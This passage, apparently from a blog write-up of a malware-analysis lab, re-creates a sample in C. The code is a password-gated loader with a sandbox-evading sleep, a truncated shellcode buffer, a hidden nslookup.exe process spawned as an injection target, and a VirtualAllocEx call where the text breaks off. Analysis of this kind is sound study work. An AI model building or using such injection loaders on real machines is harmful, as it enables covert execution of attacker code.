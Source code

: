 After we have created a new project in Visual Studio, let's get down to business. And how do we reproduce the code from our analysis? Well, we already know the main logic of the program. Now, we need to transcribe it into code.

We start our code by importing some header files necessary for our program.

```c
#include <windows.h>  // This file contains the functions allowed to interact with the Windows APIs
#include <stdio.h>    // This file allows I/O interactions i.e. Input and Output
#include <string.h>   // This header allows us to perform string manipulations
#include <stdlib.h>   // Here are some functions that allow us to interact with memory
```

After importing the libs, we created a constant and two global variables. In our constant, we will store the value of the password **btlo** equal to that of the malware. In the first variable, we will hold our payload, and the other one will receive the size of our payload.

```c
#define SECRET "btlo"
unsigned char payload_buf[] = "\xfc\xe8\x82\x00..." // Arrey containing our payload
unsigned int payload_length = sizeof(payload_buf)   // Size of our payload
```

After doing this, we move on to the main function where most of the code will be located. Here, we spent a reasonable amount of time reading parts of the Microsoft documentation and some other posts showing how we can create processes. Our main function ended up looking like this.

```c
int main(void)
{
 STARTUPINFO startupinfo;
 PROCESS_INFORMATION procinfo;
 BOOL targetproc;
 PVOID buffer;
 HANDLE remote_thread;
 char password[5];

 ZeroMemory(&startupinfo, sizeof(startupinfo));
 ZeroMemory(&procinfo, sizeof(procinfo));
 startupinfo.cb = sizeof(startupinfo);

 Sleep(18000);

 printf("Password? \n");
 fgets(password, 5, stdin);

 if (strcmp(password, SECRET) == 0) // Validate the password
 {
  // Create a new process
  targetproc = CreateProcessW(
   L"C:\\Windows\\System32\\nslookup.exe",
   NULL,
   NULL,
   NULL,
   FALSE,
   CREATE_NO_WINDOW,
   NULL,
   NULL,
   &startupinfo,
   &procinfo
  );
  WaitForSingleObject(procinfo.hProcess, 1000);

  // Allocates a space in memory the size of our payload
  buffer = VirtualAllocEx(
   procinfo.hProcess,
   NULL,
```